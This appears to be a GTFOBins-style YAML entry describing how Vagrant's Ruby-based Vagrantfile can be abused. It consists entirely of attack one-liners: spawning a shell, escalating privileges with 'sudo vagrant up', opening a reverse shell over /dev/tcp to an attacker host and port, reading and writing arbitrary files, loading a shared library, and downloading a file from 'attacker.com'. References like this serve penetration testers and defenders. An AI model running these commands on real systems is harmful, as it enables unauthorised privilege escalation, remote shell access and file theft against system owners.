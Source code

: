 ```yaml
---
description: |
Vagrant can execute arbitrary ruby code when starting up. The Commands down below create a new directory "pwn" in the tmp-folder where vagrant then is initialized. After that the command is pasted into the Vagrantfile and executed.
More Info at https://gtfobins.github.io/gtfobins/ruby/
functions:
  shell:
    - code: mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'exec "/bin/sh"' > Vagrantfile && vagrant up
    -
  sudo:
    - code: mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'exec "/bin/sh"' > Vagrantfile && sudo vagrant up
  reverse-shell:
    - description: |
        Run `nc -lvnp RPORT` on the attacker box.
        Replace RHOST and RPORT with the attacker ip and port to gain a reverse shell.
      code: |
        mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'exec "sh -i &>/dev/tcp/RHOST/RPORT <&1"' > Vagrantfile && vagrant up
  file-write:
    - code: mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'File.open("file_to_write", "w+") { |f| f.write("DATA") }' > Vagrantfile && vagrant up
  file-read:
    - code: mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'puts File.read("file_to_read")' > Vagrantfile && vagrant up
  library-load:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        mkdir /tmp/pwn && cd /tmp/pwn && vagrant init && echo 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])' > Vagrantfile && vagrant up
---
```


